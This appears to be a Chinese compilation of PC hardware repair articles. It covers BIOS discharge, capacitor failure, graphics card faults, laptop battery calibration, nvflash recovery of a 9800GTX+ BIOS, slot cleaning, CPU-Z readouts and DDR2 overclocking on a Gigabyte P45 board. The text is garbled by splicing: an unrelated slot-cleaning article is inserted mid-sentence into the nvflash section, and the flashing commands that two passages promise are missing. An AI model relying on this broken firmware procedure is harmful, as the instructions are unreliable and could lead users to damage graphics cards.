打开计算机主机箱盖，仔细观察主板，找到 “BIOS信息初始状态的按钮”（见图4）。

**实践为先**：可以利用“排除法”首先建议你更换一台显示器，看问题是否能够解决。
如果问题仍然存在，那么该问题应该就是显卡造成的，由于该计算机使用主板集成显卡，所以，故障应该是由于主板BIOS屏蔽了集成显卡。但是，由于启动计算机黑屏，无法对主板BIOS进行设置，所以需要强制为BIOS放电解决问题。

> **小提示**
有的主板不提供“BIOS信息初始状态的按钮”，只提供短接跳线，具体跳线设置方法，由于不同主板跳线设置不同，这里不多介绍，建议操作时查看相应主板说明书。

**专家论道**：也许你会说上面这个故障好像是个显卡故障，可是，这个所谓的显卡故障，是由于主板BIOS设置不当造成的；其实，我们这里只是想通过这个故障，为大家介绍一下如果主板BIOS设置错误，使计算机无法开机，造成无法修改设置，就可以使用为BIOS放电的方法，恢复BIOS出厂设置。

### 主板电容失效引起的机器无法使用

**故障描述**：一台计算机在开机时，没有任何反应，电源运转正常，CPU风扇也正常运转，只是显示器没有任何反应，也无报警声的出现。开始以为是电源问题，更换电源后，问题依旧，借来一块主板，将该机其他部件插在该主板上，问题解决（见图5）。



**故障分析**：一般这种情况会有很多种的可能，首先，你可以将主板从主机箱中取出，仔细观察主板上的一些电容的情况。主板上一般都采用铝电解电容，这种电容内部的电解液可能会由于时间，温度、质量等方面的原因，或者电压不稳、操作不当引起的电容损坏或老化，甚至出现“爆浆”现象。这便会直接影响机器的正常运行，一些重要电容损坏后，开机后机器本身就会没有任何的反映（见图6、图7）。




> **小提示**
如果出现“爆浆”电容，那么对于普通用户而言，一般不建议自己维修，最好在专业人士的指导下完成或者直接请专业人士进行更换。
如果没有可以没有找到“爆浆”电容，建议你仔细观察主板上是否附着灰尘，由于主板的面积比较大，灰尘聚集的也比较多，过多的灰尘也会引起主板和其它板卡之间的接触不良。

**实践为先**：拔掉主机箱电源，使用毛刷对主板和其它板卡进行清洁，减少接触不良的现象出现（见图8）。



**专家论道**：主板上的电容、电阻等元器件出现问题，造成主板故障是很常见的，而想尽可能的减少这样的故障，在选购主板时，就要选择一些大品牌的主板，因为这样的主板虽然价格稍贵，但是所采用的元器件用料实在，比一些小厂商所采用的元器件更有保障。

### 如何让显卡正常运转

显卡是显示器与主机相互连接、通信的控制电路和接口，它在一台电脑中的作用主要是用于处理图形的数据信息，将电脑中的二进制0和1转换成图像显示出来。目前，显卡有独立的电路板和集成在主板中的两种。通常独立电路板的显卡，要较集成在主板中的显卡专业，而且性能也要好很多。但在整机成本方面，集成在主板中的显卡却具有先天的优越性，这也是集成显卡的最大优点。



显卡在工作时，先通过AGP或PCI-E总线接收从CPU中送来的数据信息，这些数据信息进入显卡的图形芯片（即GPU）进行处理。当芯片处理完后，相关数据会被运送到显存暂时储存。

然后，数字图像数据会被送入RAMDAC（Random Access Memory Digital Analog Converter），即随机存储数字模拟转换器，转换成电脑显示需要的模拟数据。最后，RAMDAC再将转换完的类比数据送到显示器，成为我们所看到的图像。在该过程中，图形芯片对数据处理的快慢，以及显存的数据传输带宽都会对显卡性能有明显影响。

### 显卡的外观与构造

在一块显卡中，有几个关键部分是必不可少的，它们是GPU、显存、BIOS、VGA或DVI等输出接口，以及AGP或PCI-E等总线接口等。下面逐一认识在显卡中的各个主要元件。图形芯片在散热风扇和散热片的下面，它的英文简写是GPU，全称是Graphics Processing Unit，直译是图形处理芯片的意思。它是显卡上的“心脏”，相当于CPU在电脑上的作用。它决定了显卡的档次和大部分性能，同时也是2D显卡和3D显卡的区别依据。在显卡上那些比较大片的芯片就是显存，其作用是用于存放和处理图形信息资料的临时数据。从这一意义上，我们可以发现显存的速度和容量将直接影响显卡的整体性能。目前，显存主要有DDR、DDR2和GDDR3的三种类型，而显存所采用的颗粒与电脑里面的内存所采用的是一样的。在散热风扇和散热片的下面，有一块很重要的GPU图形处理芯片，这块芯片在运行的时候会发出大量的热量，因此就需要用散热片和散热风扇给这块芯片散热，确保GPU芯片能稳定、正常地运行。

在一块显卡里面的控制程序和产品标识等的信息，一般是由显卡生产商固化在ROM芯片里面的，而这颗芯片就被称为显卡的BIOS芯片。因此，BIOS芯片包含了显示芯片、显卡驱动程序的控制程序和产品标识等的信息，其功能类似于主板上的BIOS芯片。目前的显卡BIOS一般都已经具有可刷写、升级的功能。

电容的作用主要是给显卡供电时，为所提供的电源进行滤波和稳压。显卡采用电容主要有电解电容、铝电容、钽电容等几种类型。电解电容成本低，但不稳定，因此现在品牌显卡生产商都放弃了使用电解电容，而采用铝电容和小巧的钽电容来保证品质。

目前大多数的显卡都采用VGA输出接口技术与显示器相连，并将数据信息传递给显示器。一般的VGA接口都是一个带有15个插孔的梯形接口，输出的是模拟图像信号，一般用于连接CRT显示器；DVI接口有DVI 1.0和DVI 2.0的两种标准，以及有DVI-I和DVI-D的两个版本，通常DVI-D是传输纯数字信号，而DVI-I则传输数字/模拟信号，一般用于连接LCD液晶显示器。

目前常见的显卡总线接口主要是PCI-E 16X。PCI-E的全称是PCI Express，X16等于16倍于X1的速度，即是4GB/s。在全双工模式中，PCI-E图形接口拥有两条专用信道，这意味着其速度即可以倍增至8GB/s，使其可以轻松、灵活地提供不同速率的总线带宽，以及提供了广阔的扩展能力。

### 显卡常见故障诊断流程

- 1. 检查是否能开机
诊断显卡故障，我们可以先检查显卡是否能引导电脑开机。如果不能，则是显卡接触不良，或显卡本身有问题。

- 2. 是否出现死机
如果能开机，可进一步了解是否由于显卡导致电脑出现死机现象，如果由于显卡而导致死机，则可以进入BIOS，检查显卡电压是否过高、是否越频，以及显卡GPU芯片是否发热异常等原因。

- 3. 显示是否有异常
如果没有导致电脑死机，可再检查是否有显示的问题。如果显示有问题，一般多由于显卡驱动程序安装不适当、版本不兼容，以及操作系统DirectX程序的问题。

### 显卡故障种类和解决方法

由于接触不良、驱动程序不适当等的原因，往往会导致显卡产生各种各样的故障，而显卡作为电脑的图像处理中心，如果出现故障，会直接影响电脑的正常使用。下面针对显卡不同的故障种类，分别介绍其对应的解决方法，供大家维修时参考。

### 显卡接触不良故障一般解决方法

#### 1. 故障分析

显卡接触不良故障，是指显卡故障的常见现象之一，主要表现在与主板显卡插槽接触不良导致。在显卡接触不良时，通常会引起电脑无法开机、有报警声，或系统不稳定等故障现象。显卡接触不良故障，一般是由于显卡安装不牢、‘金手指’被氧化，或显卡插槽受到灰尘影响等原因引起的。

#### 2. 解决方法

当电脑出现显卡接触不良时，可打开电脑机箱，检查显卡是否完全插好，如果没有，将显卡拆下，然后重新安装。如果重新安装好之后，故障没有排除，可拆下显卡，然后清洁显卡和主板显卡插槽中的灰尘，并用橡皮擦拭显卡金手指中被氧化的部分。之后，将显卡安装好，然后进行测试。



如果故障排除，则是显卡接触不良，或显卡金手指被氧化、灰尘影响所致。如果故障依旧，可将显卡拿到能正常运行的电脑上测试，如果显卡依然不能工作，则是显卡已经损坏，如在其他电脑上能正常运行，则是显卡与主板不兼容。

小提示
在安装显卡时，应注意检查机箱的挡板，使显卡能正确安装。此外，如果显卡板身比较长，应注意主板内存条的安装卡位是否阻碍显卡的安装。

### 显卡驱动程序故障一般解决方法

#### 1. 故障分析

显卡驱动程序出错，也是导致显卡故障的常见原因之一。显卡驱动程序出错，往往表现为还可以正常引导电脑启动，但会造成系统不稳定、花屏、文字图像显示不完全等故障现象。显卡驱动程序故障，主要包括显卡驱动程序文件丢失、显卡驱动程序与系统不兼容、显卡驱动程序损坏、无法安装显卡驱动程序等。

#### 2. 解决方法一

在怀疑显卡驱动程序是否出错时，可从开始菜单中依次点击“设置”→“控制面板”→“系统”→“硬件”→“设备管理器”，从打开的“设备管理器”窗口中，查看是否有显卡的驱动程序。如果没有显卡驱动程序，说明没有安装显卡的驱动程序，或者驱动程序还是操作系统默认安装的即插即用设备，这时重新安装驱动程序即可。

#### 3. 解决方法二

如果在“设备管理器”中发现有显卡驱动程序，但显卡驱动程序上有黄色的“！”，说明显卡驱动程序没有安装好、驱动程序文件丢失、驱动程序版本不对，或驱动程序与系统不兼容等。接着，删除有问题的显卡驱动程序，然后再重新安装显卡驱动程序。重新安装后，检查是否正常。

#### 4. 解决方法三

如果重新安装驱动程序后故障依旧，或者驱动程序不能安装，则可能是驱动程序与操作系统不兼容，接着下载新版的驱动程序，然后重新安装。如果安装正常，则是原先显卡的驱动程序有问题；如果安装后故障依旧，可重新安装操作系统，然后再安装显卡驱动程序。
重新安装系统后，故障依旧，则可能是显卡有兼容性问题。这时可以拿一块好的显卡安装到电脑上，并将原来的显卡拿到其他电脑上测试。如果确认显卡是有兼容性问题，可更换显卡。







### 显卡兼容性故障一般解决方法

#### 1. 故障分析

显卡兼容性故障，是指显卡与主板或其他设备不兼容，导致显卡无法正常工作。显卡兼容性故障，通常会引起电脑无法开机、有报警声，或系统不稳定经常死机，或屏幕出现异常杂点等故障现象。显卡兼容性故障，一般发生在电脑刚装机或进行升级后，多见于主板与显卡不兼容。

#### 2. 解决方法

如果电脑的显卡发生兼容性问题，可先关闭电脑，打开机箱，拆下显卡，清洁显卡及主板显卡插槽的灰尘，特别是显卡金手指，清洁后测试电脑是否正常运行。此外，如果显卡发生兼容性问题，但依然能正常进入操作系统，可尝试更新显卡的驱动程序，或升级显卡的BIOS。如果以上方法都不行，并且用部件更换法，确认是显卡兼容性问题，那只能更换显卡或与显卡冲突的硬件设备。

> > 小知识
> 
> 使用这种方法，前提条件是手中必须有一块PCI接口的显卡。如果没有PCI显卡，而主板支持双PCI-E显卡，这时可以在主板上插入两张不同品牌的显卡，再次刷新即可。例如，损坏的是PCI-E的ATI显卡，那么就再安装一张NVIDIA的显卡。



### 显卡BIOS刷写失败故障一般解决方法

#### 1. 故障分析

升级显卡的BIOS，可以解决一些显卡的BUG问题，以及开启显卡的更多功能。但是，如果在刷写显卡BIOS的过程中，操作不当，或突然断电，就会导致显卡BIOS损坏。显卡BIOS损坏，通常表现为电脑不能正常开机、花屏或不稳定等现象。

#### 2. 解决方法

首先，将电脑上的显卡卸下，插上一块PCI显卡，然后开机，进入主板BIOS设置程序，选择“Integrated Peripherals”选项。接着，将显卡优先设定“Init Display First”一项的值，改为“PCI Slot”。然后，保存设置并关机。
接下来，将原先卸下的显卡重新插上，但仍让显示器连接在PCI显卡上，然后重新开机。最后，按照正常刷新显卡BIOS的方法，将正确的或之前备份的BIOS文件刷回去。刷写成功后，关闭电脑，将PCI显卡取下，将显示器连接回原先的显卡上即可。



### 显卡元件损坏故障一般解决方法

#### 1. 故障分析

显卡元件损坏，是指显卡上的电容、电感、BIOS芯片、显存芯片，甚至GPU等元件损坏，导致显卡不能正常工作。在显卡元件损坏时，往往会导致电脑无法开机，或显示系统不稳定等情况。引起显卡元件故障的原因，主要有带电插拔显卡、超频不当、发生碰撞，以及元器件质量有问题等。

#### 2. 解决方法

在显卡出现元件损坏现象时，一般都需要对元件进行替换。这时可以根据不同的元件，使用不同的焊接方法和工具，将元件替换。
一般来说，如果是电容或电感损坏，可先用电烙铁将电容插脚的锡烫化，取下电容，用吸锡器把电容插孔中的锡吸出来，然后插上完好的、容量和型号相同的电容，再用锡将电容焊接牢固即可。
如果芯片损坏，则可用热风枪或BGA封装机，对芯片的引脚加热。然后，用芯片起子插到芯片的引脚下面，待锡溶化将芯片取出。接着，用镊子给焊点涂上焊膏，用烙铁把焊点的锡涂平，之后把芯片的引脚和主板的焊点一一对应，用烙铁先把其中的几个引脚和主板焊上，然后用热风枪均匀加热，待锡溶化，芯片就焊上。





### 电池校正，还我电量

对于使用时间在1年以内的电池，续航时间变短往往不是因为电池正常老化，而是因为电池在多次的充电和放电过程中，笔记本BIOS系统对电池电量产生了误判。本来电池还有一定电量，但BIOS却错误地认为电量已耗尽，让本本强行关机。如果出现了这种电池续航时间缩水的情况，首先不要忙着下结论是电池质量问题，而可以通过“电池校正”这种简单易行的办法来让剩余的电量充分发挥出来。

#### 如何进行“电池校正”

电池校正的方法不止一种，通常有三种方式：使用BIOS中的电池校正程序、人工方式电池校正以及使用第三方电池校正软件。这里主要说说前面两种校正方式。

> > **小贴士**
> 
> 不建议使用第三方的电池校正软件。至于原因，首先需要安装第三方软件，没有前两种方法简便；其次，其实背后的校正原理是类似的，第三方软件并没有太多独到的地方，而且还存在潜在的安全风险。所以在通过前面两种方法可以完成电池校正的情况下，不建议使用第三方软件。

#### 标准校正法：用本本BIOS中的电池校正功能

很多品牌的笔记本电脑在其BIOS里面都集成了电池校正的程序，一般英文的说法叫做“Battery Calibration”，即“电池电量校对”。直接进入本本BIOS就能完成电池校正的操作，这里以华硕笔记本为例，简单说说如何操作，其他本本的操作方式类似。

- - 第一步：开机，出现开机画面后按F2进入BIOS菜单；通过左右方向键，选择进入Power菜单。
- 第二步：进入Power菜单，就能看到“Start Battery Calibration”选项（见图1），选中它并按回车键执行。
- 第三步：这时屏幕会变成蓝色，并有英文提示，要求把笔记本的电源适配器插上给电池充电。等电池电量充满后，屏幕又提示用户断开电源适配器（见图2）。之后笔记本开始持续对电池放电，直到电池电量耗尽。
- 第四步：这个过程需要一段时间，等电池耗尽自动关机后，然后接上电源适配器给电池充电，但不要开机。等充电完毕（充电指示灯熄灭）后，电池校正的过程才算完成。





> > **小提示**
> 
> 这个操作是比较官方的电池校正办法，整个过程大约需要4~5个小时，比较耗时。如果你发现你的本本电池没用多长时间，比如几个月，续航时间不如当初，而且本本BIOS带有这个功能的话，建议实施一下。

#### 简易校正法：让本本开机自然放电

而有些笔记本，在BIOS里怎么找也找不到电池校正的选项。难道这样的笔记本就没法进行电池校正吗？其实不然，我们可以通过“简易”的电池校正法对其进行操作。之所以叫做“简易”，因为这不是官方公布的方法，而是通过我们手动的一些设置，让本本在正常工作中放电直到自动关机。

> > **小知识：简易电池校正的原理**
> 
> 表面上看，电池校正的过程是对电池进行充电和放电，不过它的目的不是像我们所想象的那样激活电池，因为现在的本本电池都是锂电池，不存在激活的问题。而充放电的真正目的是让电脑重新认识电池的容量。所以，要尽量把电放干净，让本本工作在较小功率下，这样校正的效果才好。

下面介绍一下手动电池校正的必要操作步骤。

- - 第一步：本本在操作系统（以Windows XP为例）中，进入“电源选项”。把“电源使用方案”选择为“一直开着”，并把“关闭监视器”、“关闭硬盘”设置为最短的时间，而系统待机要设为“从不”。
- 第二步：在“电源选项”的“警报”中，取消所有警报选项，目的是让电池完全耗尽直到关机。
- 第三步：设置完毕之后，关闭所有的应用程序，关闭WIFI，拔掉电源适配器，用电池供电。不要做任何操作，直至把电池耗尽后自动关机。这个过程估计比较长，可能要好几个小时。放电完毕后，连上电源适配器，把电池充满，则完成了一次电池校正。

校正之后，试试电池的续航时间是否有所增加，如果不明显，可以按照上面的方法再进行一次，但不建议经常进行。如果电池已经有较长的使用时间了，且做了电池校正后，效果不明显的，则可能是电池本身的寿命自然老化。另外，如果笔记本电池的续航正常的话，我们不建议进行电池校正的操作。

### 显卡BIOS刷新失败拯救方案

9800GTX+自推出后价格快速降至千元附近，成为了不少游戏爱好者的首选产品。9800GTX+与HD4850在性能上不相上下，选择9800GTX+的更多是看中NVIDIA产品一贯的出色稳定性以及驱动程序兼容性。然而，有一些用户发现9800GTX+买回去后才是噩梦的开始，花屏现象频发，玩游戏的兴致顿时大减……

### 9800GTX+花屏为何故？

9800GTX+其实就是采用55nm新工艺生产的超频版9800GTX，在整体架构上与老款产品别无二致，功耗方面也相当接近。理论上说，只要旧版9800GTX不出问题，新版GPU也不应该出乱子。但事实是，无论是一线大牌子还是二线品牌，都出现了或多或少的9800GTX+花屏问题。

根据笔者了解到的资料，原因主要由显卡的分频技术引起：9800GTX+作为新产品，理所当然地具备几年前就研发成功的分频功能，然而在工程测试阶段，NVIDIA提供给各大厂商的测试版并未启用显卡分频功能，所有厂商在研发阶段均没有发现花屏现象。然而发布后的新BIOS却打开了分频功能，显卡频繁地在2D/3D间频率切换，对电源造成巨大冲击，GPU因供电不稳就会引起花屏。

> 小提示：什么叫显卡分频？ NVIDIA于数年前就研发了显卡的2D/3D分频技术，就是显卡在2D/3D状态下工作频率并不一样。分频功能可以大大减小显卡在闲时的功耗，从而达到降温和节能目的。后来因为分频功能出现问题众多，NVIDIA陆续在新驱动中全部或部分屏蔽了分频功能。

> 风险提示：下面的操作涉及硬件级修改，只适合有一定动手能力的读者进行，动手前请三思。对于因误操作所造成的损失，本文作者不负任何责任。

### 如何解决花屏问题？

既然我们已经了解清楚花屏的症结，那么问题解决起来就方便得多了。我们只需要使用厂家提供的新版BIOS代替原有的问题BIOS，一般就可以解决花屏现象。

STEP1：下载修正版BIOS 到官方网站，下载修正版BIOS，以及nvflash刷写软件，存放在硬盘根目录上，注意不要使用中文名，假设存放在C盘中，nvflash命名为nvflash，要刷新的BIOS名称为NEW9800GTX+.rom。
STEP2：进入DOS 然后通过启动型U盘引导系统进入DOS，找到存放BIOS以及nvflash软件的分区，输入如下命令:cd c:\(进入C盘刷新工具所存放的目录)
STEP3：备份原有BIOS 键入nvflash -b 9800GTX+.rom(备份9800GTX+显卡BIOS于c: vfalsh目录下，命名为9800GTX+.rom，以便刷新失败后使用)
STEP4：强行刷新BIOS 键入“nvflash -5 -6 NEW9800GTX+.rom”(强制刷新命令，刷新新版本BIOS。NEW9800GTX+.rom是将要刷新的新版本BIOS名称。命令不包括双引号，下同)，中途系统会进行两次询问，分别两次按“Y”确认即可。 稍等片刻后，若出现“Update Successful”提示，则表明刷新成功（见图1）！

### 刷新失败如何处理？

DOS环境对于多数玩家来说都是陌生的，大多是因为下载BIOS文件损坏或者刷写时命令选择不当导致显卡无法点亮。确实，无论对于显卡还是主板，刷新BIOS失败都是非常头痛的事情，下面我们将为大家介绍一些实用的方法，在不返修的前提下提供你第二次刷新BIOS的机会。

### 方法一：SLI、交火主板救驾

9800GTX+属于高端产品，购买这一显卡的用户群中想必有相当一部分直接购买了支持SLI或者交火的主板。此类主板通常具备2条甚至3条显卡插槽，我们完全可以利用主板支持多显卡优势轻松回刷显卡BIOS。一些老鸟也许指出PCI接口显卡适应性更广。没错，PCI显卡能很好地解决问题，不过对于大多数读者来说，找一片PCI-E接口的显卡远远比找一片古老的PCI显卡来得容易。

STEP1：安装双显卡 首先找来一片可以工作的PCI-E显卡，近几年主流显卡均为PCI-E接口，就地取材非常方便。然后两片显卡都安装到主板上，显示器信号线需连接到正常的显卡上（注意电源功率是否足以带动2片显卡）。
STEP2：引导进入DOS 启动电脑，并引导进入纯DOS环境。也许很多人就认为照上面提到的方法如法炮制刷新BIOS即可，其实不然，使用双显卡，会出现以下几种不同的情况，处理方法也不一样：

#### 情况1：两片均为NVIDIA显卡

当两片显卡均为NVIDIA显卡时，nvflash可以随# 大扫除之插槽、接口篇

万物复苏，灰尘也会趁机“袭击”你的电脑，如果你的电脑最近经常死机或是总“不听话”，也许就是灰尘惹的祸，准备一下，为你的电脑做一次深层清洁吧。打扫完外面的灰尘，千万别漏掉了“里面”——主板上各种插槽里或者显卡的DVI接口里，往往积满了灰尘，甚至严重氧化，很可能造成新插入的内存无法识别，或者系统启动后无故重启。而新插入的显卡或其他PCI设备则可能出现各种奇怪的故障。今天我们就来谈谈如何做好清洁工作。

### 各种插槽灰尘轻松除

- **第一步：准备必要的工具**
做清洁工作前，首先将主板取出，去除上面的处理器、显卡、内存等各种元件，将其平放到一个平台上。需要准备的工具包括干净毛巾、软毛刷、一把新的牙刷以及清洁剂。清洁剂可使用无水酒精。

- **第二步：先用毛刷去除灰尘**
先用软毛刷将主板上看得见的灰尘刷去，这时候要特别注意插槽，插槽里面也一定要清洁到。

- **第三步：再用无水酒精去除氧化层**
将灰尘清除后，用牙刷蘸取无水酒精，在插槽上顺着插槽的方向反复刷几次，注意蘸取的液体不要过多，蘸取后可用手甩一下再刷。



- **第四步：擦拭干净晾干插槽**
等插槽内的金属针重新露出原有的颜色，即可停下来。接着用毛巾将刷过的插槽擦拭一遍，然后将主板晾干半个小时左右，即可重新装机。

### 顽固灰尘，吸尘器解决

DVI接口最大的敌人就是灰尘，积灰后如果不加清除就接上DVI线，很可能造成屏幕上到处是彩点，甚至全部偏绿或偏红。

意地刷新任一显卡BIOS，一旦刷写错误，不但9800GTX+救不回来，前来救援的显卡也会无辜受灾。如何才能确定刷写的就是我们需要修理的一块显卡呢？

```
nvflash -v
```

-v命令作用是扫描系统内所有显卡ID信息，按回车后屏幕上将依次显示扫描到的所有显卡ID信息，并以0, 1, 2为序列进行命名。每个序号就分别对应一块显卡，在每张显卡的最后一项“sign-on Message”中就可以看到显卡型号信息。从而确定哪一个序号对应的才是需要刷新的显卡（见图2）。



假设序号为1的显卡即为待刷BIOS的9800GTX+，那么刷新命令就是：

#### 情况2：正常显卡为非nVIDIA显卡

如果正常显卡为非nVIDIA显卡，在一般情况下，nvflash同样会尝试读取显卡硬件ID信息并显示出来，待刷BIOS的9800GTX+信息也会一并显示。当然，不排除个别ID信息读取失败不被显示的情况，不过可以肯定的是，9800GTX+必定会被正确检测并显示出来。

如果两片卡都被正确显示，那么键入与上面同样的命令：

### 方法二：用整合主板让9800GTX+起死回生

整合主板一大优势就是内置一片显卡，并且基本上都带一条PCI-E 16X显卡插槽。这就为我们重新刷新BIOS提供了可能。如果你是在校学生，那么在身边寻找一台带整合显卡的电脑是相当容易的事情。

#### STEP1：设置启动顺序

无论整合还是非整合主板，BIOS中大多都提供了显卡启动顺序选择。开机后按DEL键进入BIOS——Integrated Peripherals，找到Init Display First选项（不同品牌主板选项位置及名称可能有所不同），点击确认后选择“Onboard”选项，保存并退出，此时重启后主板会优先从板载显卡启动。

#### STEP2：插入待刷BIOS显卡

设置好BIOS后，关闭电脑，并插入待刷BIOS的显卡（记得连接6pin辅助供电线，否则显卡将无法工作），显示器信号线依旧接在板载显卡输出接口中。

#### STEP3：检测显卡

启动电脑并进入系统，按前文方法，准备好BIOS文件存放于根目录下，然后重启电脑，并引导进入纯DOS状态。按前文的方法直接刷新BIOS即可。

### 方法三：双BIOS互刷

市面上部分显卡厂商提供了双BIOS配置，也就是一片显卡中带有2个物理BIOS，在第一个BIOS刷新失败时，可以通过拨动BIOS切换拨片或者其它方法手动切换到备份BIOS重新工作。虽然免去了寻找替换显卡的麻烦，不过还是需要手动把新BIOS回刷到坏BIOS芯片中。

## 处理器购买要看参数

CPU-Z 是一款家喻户晓的CPU检测软件，除了使用Intel或AMD自己的检测软件之外，我们平时使用最多的此类软件就数它了。它支持的CPU种类相当全面，软件的启动速度及检测速度都很快。另外，它还能检测主板和内存的相关信息，其中就有我们常用的内存双通道检测功能。 但是CPU-Z中的那些参数到底是什么意思呢？或许一些入门级玩家多少还是有些疑惑的，那么就请听本回讲解吧。

### Code Name

对于处理器厂商来说，核心代号的单词本身并不具备实质上的意义，使用核心代号仅仅是为了能更方便地对分布于各档次的产品进行区分。例如图中羿龙II产品的核心代号为“Deneb”，若没有核心代号的话，那么将会看到“45nm制造工艺，HT3.0总线技术，AM2+接口，支持SSE4A”等一系列繁琐的规格。而如今用“Deneb”一词就可以概括了。

### Clocks

这一项主要包括了处理器的主频 (Core Speed)，倍频 (Multiplier) 还有总线频率 (Bus Speed) 这3个相关信息。从图中我们可以看出X3 720的当前的主频是2809.5MHz，按照通常说法即2.8GHz，倍频是14倍，总线频率是200.7MHz。它们之间的关系是主频=倍频×总线频率。另外参数中的HT LINK是指AMD的HT总线，如果你的处理器是Intel的，那么这里将是Rated FSB，可以理解为额定前端总线。

### Technology

翻译成中文就是“制造工艺”的意思。而后的45nm代表了该款处理器采用了45纳米制造工艺。



> **小知识**
> 制造工艺指的是处理器核心内电路与电路之间的距离。通常其生产的精度用纳米来表示。精度越高，生产工艺越先进。在同样的材料中可以制造更多的电子元件，连接线也越细，提高CPU的集成度。制造工艺的趋势是向高集成度的方向发展，现在最新的CPU制造工艺是45纳米，而32纳米将是下一代CPU的发展目标。

### Cache

即我们常说的缓存。一般而言处理器的缓存分为一级缓存、二级缓存和三级缓存。其中一级缓存结构复杂，容量较小。二级缓存则是设计在处理器核心外部，其容量也可以较大程度的影响到处理器的性能，一般我们说的处理器多少多少缓存就是指的二级缓存大小。而三级缓存是最早由AMD提出的，其容量相比二级缓存更大，可以进一步降低内存延迟，同时提升大数据量计算时处理器的性能。

### Stepping/Revision

前者翻译成中文就是“步进”的意思，而后者则表示“修订号”。“步进”就是某一系列处理器的产品编号，用来标识处理器的设计或生产的制造版本。处理器细节上的小修小改，一般只会提升“修订号”，而涉及到更核心方面的大修，则会改变“步进级别”的编号。

### Instructions

这个英文的意思就是“指令集”。处理器之所以能控制庞大的电脑系统就是因为“指令集”。指令集是处理器中用来计算和控制计算机系统的一套指令的集合。指令集的先进与否，也关系到处理器的性能发挥，也是处理器性能体现的一个重要标志，常见的SSE、SSE2都是属于指令集范畴。

### Name

顾名思义，Name一列中显示的就是处理器的名字，是姓张还是姓李，一目了然。从图片上来看，使用的处理器为AMD的Phenom（羿龙）II三核处理器，型号为720，而后面的“Black Edition”则代表其为不锁倍频的“黑盒产品”。处理器的名字可以较为简单，为告诉菜鸟所买的CPU是否是你需要的CPU。

> **小知识**
> “黑盒产品”和普通包装的处理器有什么差异？
> AMD的黑盒产品和普通产品最大的不同在于前者不锁倍频，其目标市场自然是超频玩家和追求极致性能的专业用户，简单来说就是一款对普通用户来说都非常易于超频的处理器。黑盒版本最成功的销售案例莫过于2007年推出的速龙64×2 5000+黑盒版，许多玩家都将其称为“黑五”，凭借出色的超频能力，几乎上市就被卖到断货。

> **小知识**
> 步进记录了处理器的发展
> 步进的编号会随着这一系列处理器的生产工艺改进、BUG的解决或特性的增加而改变。处理器厂家会推出新步进的处理器，来及时解决设计上的缺陷。就处理器来说，从投产到最终停产，其制造工艺都是遵循逐步成熟的过程，步进编号一次次的变化，就记录了整个发展过程。

## 内存超频进阶指南

全民超频运动让越来越多的普通用户对超频有了一个初步的认识，除了传统的CPU超频以外，内存超频正在被更多的用户所熟知。而且一些以超频为卖点的内存成为了广大发烧友们追捧的热点，比如海盗船、金士顿的HyperX系列的内存产品，都是针对超频玩家设计的，精挑极品超频颗粒，比如镁光D9的颗粒，并加强了散热等设计，非常适合超频玩家选择。

DDR2内存目前仍然是内存市场的主流产品，它的工艺和技术已经处于很成熟的阶段。因此，下文中所讲的内容主要是针对DDR2平台。我们先来了解一下内存超频的相关知识。

要想对内存进行超频，一款具有内存参数调节的主板是不可或缺的。一般支持超频的主板BIOS中都会提供一个超频专用菜单，里面有很多丰富的超频选项供我们调节。这里要说的是，内存和CPU外频在过去很长一段时间里都是运行在相同频率下的，这时用户无法对内存频率进行更改，而是随着系统的CPU外频的变化而变化，在超频CPU外频时，内存频率往往会成为超频的瓶颈，只有高端用户买高频率的内存才能满足CPU的超频需求。自从内存异步技术的出现，才把我们的内存解放了出来，让超频变得更加容易。

AMD和INTEL的内存异步技术有所不同，在AMD平台下有一个公式可以遵循：内存频率=外频x倍频/内存系数 内存系数=标准外频x倍频/内存频率设定值 内存系数的值向上取整，比如算出来是5.1，则取整为6

例：AM2 3800+,标准外频=200,倍频=10，设置内存频率为667MHz，那么内存系数=200x10/333=6（取为6），内存的工作频率=200x10/6=333MHz（等同于667MHz）。当提高外频为260时，在BIOS里设定内存频率为533MHz，则内存系数=200x10/266=7.5（取为8），内存的工作频率=260x10/8=325MHz(等同于650MHz)。

在INTEL平台下就变得相对简单得多，主板里设置的内存频率都是已经自动计算好了的。用户设置的频率就是内存实际运行的频率。

### 六步搞定P45芯片组主板的内存超频

下面我们就以技嘉的EP45-DS4主板的BIOS为例，手把手教大家来进行内存的超频。

第一步：打开电脑，在看到机器自检画面的时候按DEL键来进入BIOS选项。

第二步：进BIOS之后，左侧第一个选项（见图1）中包括了主板所有的超频选项，直接按回车进入。



第三步：设置CPU外频。它和内存的关系是等比增长的，外频上升内存的频率就随之上升，比例是由下面的选项System Memory Multiplier决定的，这个选项也就是大家常说的内存分频选项。

第四步：Performance Enhance和内存性能有很紧密的关系，它包含三个选项，从低到高分别是：Standard、Turbo、Extreme。一般来说想超高频率的情况下选择Standard。X.M.P这个选择可以关闭，因为笔者的内存支持EPP功能。具有这个功能的内存，在nVIDIA的nForce系列芯片组的主板上，就可以实现内存自动超频的功能。MCH Frequency Latch这个选项是指定开机时芯片组的频率，而且还控制内存分频选项的数量（见图2）。入门级玩家可以选择AUTO来获得更多的分频比例。



第五步：设置内存时序。还是这个页面，继续往下拉，修改为Manual选项按回车就打开了下面的时序选项。时序又叫做参数，虽然它相比频率来说对内存性能的影响不是那么大，但是在同等内存频率下低参数的确可以让性能得到进一步提升（见图3）。



下面是一些对内存性能影响很大的参数：

- **1. 1T/2T Timing（首命令延迟 Intel主板中一般没有此选项）建议设置：1T为性能 2T稳定性**
- **2. CAS Latency Control（tCL）建议设置：5**
- **3. RAS#to CAS# Delay（tRCD）建议设置：5**
- **4. Row Precharge Timing（tRP）建议设置：5**
- **5. MinRAS# Active Timing（tRAS）建议设置：15**

第六步：调整电压。页面继续往下拉到底部，为主板北桥和内存的电压设置选项（见图4）。


调节也相当重要，因为调节内存其实是在制定北桥的规则，让内存来遵守，所以关于北桥的一些电压选项也要仔细调试。在技嘉这张主板上，北桥电压被加到了1.28V来达到能承受与内存稳定配合的要求。全部设置完毕，最后保存BIOS，重启进入系统，经过这样一番调节，内存就已经运行在设定的频率下了，我们可以使用CPU-Z查看内存的频率、时序（见图5）





> 小提示
> 内存超频需要注意散热，内存电压提高到2V左右比较合适。
